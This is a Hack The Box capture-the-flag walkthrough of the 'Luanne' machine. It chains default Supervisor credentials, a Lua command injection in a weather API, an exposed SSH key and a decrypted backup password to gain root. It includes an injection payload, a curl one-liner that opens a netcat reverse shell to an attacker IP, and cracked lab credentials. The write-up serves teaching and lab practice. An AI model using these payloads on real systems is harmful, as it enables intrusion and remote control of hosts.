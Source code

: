 **HTB: Luanne Walkthrough**

## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
### Recon

**Nmap Scan:**
- Open ports: 22 [SSH](SSH), 80 [HTTP](HTTP), 9001 (Supervisor Process Manager)
- OS: NetBSD
- TCP 9001 is running Supervisor Process Manager, protected by HTTP Basic Auth

**Supervisor Manager:**
- Default credentials `user:123` worked
- Found process showing `/usr/libexec/httpd -u -X -s -i 127.0.0.1 -I 3000 -L weather /usr/local/webapi/weather.lua`
- Indicates a Lua script serving weather API on localhost:3000

**Port 80 HTTP:**
- Protected by HTTP Basic Auth
- `.htpasswd` file found with hash
- Cracked to `webapi_user:iamthebest`
- Gave access to basic HTML with links to the weather API

---

### Weather API Enumeration

- Endpoint: `/weather/forecast`
- Accepts parameter: `city`
- `city=list` reveals cities
- Invalid city gives a 500 error with `unknown city: input`

**Potential Injection Point:**
- Submitting `'` crashes script
- Submitting `') os.execute('id') --` results in command execution
- Verified command injection via Lua using `os.execute`

**Reverse Shell via FIFO method:**
```bash
curl -G --data-urlencode "city=') os.execute('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.11 443 >/tmp/f') --" 'http://10.10.10.218/weather/forecast'
```
- Connected back as user `_http`

---

### PrivEsc to `r.michaels`

**In `/var/www`:**
- `.htpasswd` file with different hash
- Cracked to `webapi_user:iamthebest`

**From supervisord output:**
- User `r.michaels` running another web server on 127.0.0.1:3001
- Lua script served from `/home/r.michaels/devel/webapi/weather.lua`

**Localhost Port 3001:**
- Used credentials on `http://127.0.0.1:3001/~r.michaels/`
- Directory listing exposed `id_rsa`
- SSH key retrieved and used to login as `r.michaels`

---

### PrivEsc to root

**Found `/usr/pkg/etc/doas.conf`:**
- Allowed `r.michaels` to run anything as root
- Needed password

**Found encrypted backup in `~/backups/`:**
- `devel_backup-2020-09-16.tar.gz.enc`

**Used netpgp to decrypt:**
```bash
netpgp --decrypt --output=/tmp/backup.tar.gz backups/devel_backup-2020-09-16.tar.gz.enc
```

**Inside decrypted archive:**
- Found `.htpasswd` with hash
- Cracked to `littlebear`
- Used with `doas` to get root shell:
```bash
doas -u root sh
Password: littlebear
```

**Root Flag Captured**

---

### Beyond Root: Lua Injection Insight

**Vulnerability was in:**
```lua
local json = string.format([[
  httpd.write('{"code": 500,')
  httpd.write('"error": "unknown city: %s"}')
]], city)
load(json)()
```
- Unescaped input allowed arbitrary code execution

**Fixed in dev version:**
```lua
httpd.write('"error": "unknown city: ' .. city .. '"}')
```
- Avoided use of `load()`

---

**Summary:**
- Initial foothold via Lua injection on weather API
- User escalation via exposed SSH key in web directory
- Root via encrypted backup revealing password used for `doas`